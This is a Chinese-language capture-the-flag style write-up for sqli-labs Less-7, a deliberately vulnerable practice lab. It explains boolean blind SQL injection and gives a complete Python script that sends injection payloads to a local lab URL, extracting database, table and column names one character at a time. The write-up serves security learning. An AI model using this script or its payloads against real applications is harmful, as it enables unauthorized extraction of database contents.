 ![777](/medias/sqli-labs/777.png)


### 布尔盲注

因为题目还是有两种响应，尝试布尔盲注

- true : `You are in...`
- false : `You have an error in your SQL syntax`

布尔盲注

```python
import requests
import string
import time
# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-\{\}_'
flag = ""

url = "http://127.0.0.1:8080/Less-7/"
i = 1
print("脚本正在运行.......")
while True:
    
    for s in flags:
        # 爆库
        # id = "0')) or left((select group_concat(schema_name) from information_schema.schemata)," + str(i)+")='"+ flag + s+"'%23"
        # 爆表
        id = "0')) or left((select group_concat(table_name) from information_schema.tables where table_schema=database())," + str(i)+")='"+ flag + s +"'%23"
        # 爆字段
        # id = "0')) or left((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+")='"+ flag + s+"'%23"

        # 测试right函数
        # id = "90')) or right((select group_concat(schema_name) from information_schema.schemata)," + str(i)+")='"+ s + flag +"'%23"
        tmp_url = url + "?id=" + id
        resp = requests.get(tmp_url)
        
        if "You are in" in resp.text:
            i += 1
            flag += s
            # 测试right函数
            # flag = s + flag
            # 最后一次成功拼接作为开始，判断超时
            start = time.time()
            print(f"[#]------{flag}")
            break
        else:
            pass
    end = time.time()
    # 目标服务器性能可能存在差距，适当调整超时时间
    try:
        if end - start > 1.5:
            if flag != "":
                print("盲注结束，检查flag是否是预期结果！")
            else:
                print("检测到长时间没有再获取到响应，该脚本布尔盲注可能并不适配退出")
            exit()  
    except NameError:
        print("在第一轮循环中未找到合适的开始字符，检查环境是否适合布尔盲注或扩充flags变量(可能出现的字符")
        exit()
```